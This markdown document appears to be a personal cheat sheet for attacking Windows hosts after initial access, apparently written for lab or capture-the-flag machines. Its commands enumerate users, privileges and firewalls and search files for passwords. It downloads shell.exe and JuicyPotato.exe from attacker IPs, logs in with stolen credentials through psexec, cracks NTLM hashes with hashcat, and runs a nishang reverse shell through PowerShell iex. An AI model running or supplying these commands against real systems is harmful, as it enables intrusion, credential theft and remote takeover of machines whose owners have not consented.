 
## System enumeration

### enumerate from meterpreter shell
```
sysinfo
```

### get shell
```
shell
```

### get system info from shell
```
systeminfo
```
this shows us installed date, boot time, hot fixes installed or not.

## User enumeration 

### Find out loggedin user and his privilages
```
whoami
whoami /priv
```

### Find all users on the host
```
net users
```

### Find details of specific user
```
net user janith
```

### Find whos on administrator group
```
net localgroup administrators
```

## Network enumeration

###Find host ip
```
ipconfig
ipconfig /all
```

## Searching for passwords

### Search for passwords
```
findstr /si password *.txt
```

## AV and Firewall enumeration

### Find all the services running
```
sc queryex type= service 
```

### Check firewall info
```
netsh advfirewall firewall dump
netsh firewall show state
```

### metersploit local exploit sugester
```
run post/multi/recon/local_exploit_suggester
```
run this script using the session 

### Run windows exploit suggester using systeminfo
```
python windows-exploit-suggester.py --database 2020-10-12-mssb.xls --systeminfo sysinfo.txt
```

## Downloading files into windows host
first go to c:/temp folder
```
certutil -urlcache -f http://10.10.14.32/temp.exe temp.exe
```

## Download files using powershell
```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.1/shell.exe', 'c:\Users\Public\Downloads\shell.exe')"
```

## Windows subsystem for linux

### Search for bash or wsl
```
where /R C:\windows bash.exe
where /R C:\windows wsl.exe
```
If you found connect to linux sub folder and search for history.

## Use credentials to login using psexec.py
```
psexec.py USER:PASSWORD@DOMAIN
smbexec.py USER:PASS@DOMAIN
wmiexec USER:PASS@DOAMIN
```

## connect to SMB using credentials
```
smbclient \\\\IP\\FOLDER -U USER
```

## SAM file path
```
C:\Windows\System32\Config
```

## Crack windows hash using hashcat
```
hashcat -a 0 -m 1000 cred.hash rockyou.txt --force
```

## Imporsanate privilage escalate

### Search for privilages
```
whoami /priv
```

### Use this command to search meterpreter session
```
getprivs
```

## These privilages are vulnerable to juicypotato attacks
```
SeImporsanatePrivilage Enable
SeAssignPrimaryToken Enable 
```

## JuicyPotato Exploit
download the executable from
```
https://github.com/ohpe/juicy-potato/releases
```
Upload file
```
(new-object net.webclient).downloadfile('http://10.10.14.45:5555/JuicyPotato.exe', 'C:\Users\Public\Downloads\jp.exe')
```
copy clsid from here
```
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_10_Pro
```
run juicy potato
```
./jp.exe -t * -p shell.bat -l 4444 -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```


## Use nishang script to gain reverse shell
```
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.45 -Port 1234
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.45:5555/shell.ps1')
```

